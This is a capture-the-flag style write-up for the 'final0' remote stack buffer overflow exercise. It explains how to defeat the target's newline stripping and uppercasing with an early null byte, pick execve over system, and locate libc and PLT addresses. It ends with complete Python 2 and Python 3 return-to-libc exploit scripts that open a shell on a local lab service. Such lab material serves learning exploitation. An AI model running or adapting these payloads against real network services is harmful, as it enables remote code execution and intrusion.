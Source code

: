 # FINAL 0

### Problems

#### Strip off trailing new line characters

```
  q = strchr(buffer, '\n');
  if(q) *q = 0;
  q = strchr(buffer, '\r');
  if(q) *q = 0;
```

#### Convert to lower case

```
for(i = 0; i < strlen(buffer); i++) {
      buffer[i] = toupper(buffer[i]);
  }
```

This will remove all `\n` and `\r` chars from buffer and set our injected shell bytes to upper case. But we doing buffer
overflow, so this affects to our bytes injection.

**The solution** is to set the 0x00 terminating somewhere in the buffer 512 body. This will cause the functions read the
buffer until its 0x00, so the length of buffer will be manipulated. Example:
We put the terminating byte in 312's position if the buffer. The function strlen will read all bytes until it bump into
0x00. So the length of the buffer from the execution perspective will be 311. It helps us to prevent manipulating of our
injected bytes.

#### system() or execve()?

Short answer: `execve()`

Long answer: The main problem with `system()` in our inject, that this func forks process, and then calls `execve()`.
This will cause the new esp stack in every call of `system()`, because of fork. So we need something, to prevent it.
The `execve()` function works without fork, so we can use it.

#### Padding

We know that the buffer size is 512. So we need to overwrite it. Doing some research with padding we figured out that
garbage size will be 24 bytes + ebp address (4 bytes). So we left with:

`'A' * 511 + '\x00' (terminate byte to prevent next bytes manipulating) + 'G' * 24 + 'EEEE'` - our padding

#### EXECVE

The execve function receive 3 arguments: (command, ..., ...) *`...` - don't important, we just need to understand where
we must to put the /bin/sh address

##### EXECVE ADDRESS

We need to attach the process if running final0: `gdb $(pidof final0)`.

Next we need to call `info functions @plt` and find execve address.

#### /bin/sh address

To get address of /bin/sh we need to locate the libc start address: `cat /proc/$(pidof final0)/maps`

To get /bin/sh padding: `strings -a -t x /lib/libc-2.11.2.so | grep /bin/sh`

So address will be: `0xb7e97000 + 0x11f3bf`

### Final python2 script

```python
import socket
import struct
import telnetlib

HOST = '127.0.0.1'  # final0 host
PORT = 2995  # final0 port

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((HOST, PORT))  # socket connection

BUFFER_PAYLOAD = 'A' * 511 + '\x00'  # buffer overwriting
GARBAGE_PAYLOAD = 'AAAABBBBCCCCDDDD' + 'EEEE'  # garbage + epb

PADDING = BUFFER_PAYLOAD + GARBAGE_PAYLOAD  # final padding

EXECVE_ADDRESS = struct.pack('I', 0x08048c0c)  # info functions @plt
BIN_BASH_ADDRESS = struct.pack('I',
                               0xb7e97000 + 0x11f3bf)  # cat /proc/$(pidof final0)/maps + strings -a -t x /lib/libc-2.11.2.so | grep /bin/sh

PAYLOAD = PADDING + EXECVE_ADDRESS + 'AAAA' + BIN_BASH_ADDRESS + '\x00' * 8  # '\x00' * 8: last 2 args of execve()

s.send(PAYLOAD + '\n')
s.send('whoami\n')
print
'user: ' + s.recv(1024)

t = telnetlib.Telnet()  # to interact
t.sock = s
t.interact()
```

### Final python3 script

```python
import socket
import struct
import telnetlib

HOST = '127.0.0.1'  # final0 host
PORT = 2995  # final0 port

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((HOST, PORT))  # socket connection

BUFFER_PAYLOAD = b'A' * 511 + b'\x00'  # buffer overwriting
GARBAGE_PAYLOAD = b'AAAABBBBCCCCDDDD' + b'EEEE'  # garbage + epb

PADDING = BUFFER_PAYLOAD + GARBAGE_PAYLOAD  # final padding

EXECVE_ADDRESS = struct.pack('I', 0x08048c0c)  # info functions @plt
BIN_BASH_ADDRESS = struct.pack('I',
                               0xb7e97000 + 0x11f3bf)  # cat /proc/$(pidof final0)/maps + strings -a -t x /lib/libc-2.11.2.so | grep /bin/sh

PAYLOAD = PADDING + EXECVE_ADDRESS + b'AAAA' + BIN_BASH_ADDRESS + b'\x00' * 8  # '\x00' * 8: last 2 args of execve()

s.send(PAYLOAD + b'\n')
s.send(b'whoami\n')
print('user: ' + s.recv(1024).decode())

t = telnetlib.Telnet()  # to interact
t.sock = s
t.interact()
```

### Diagram

![flow diagram](fzero.png)



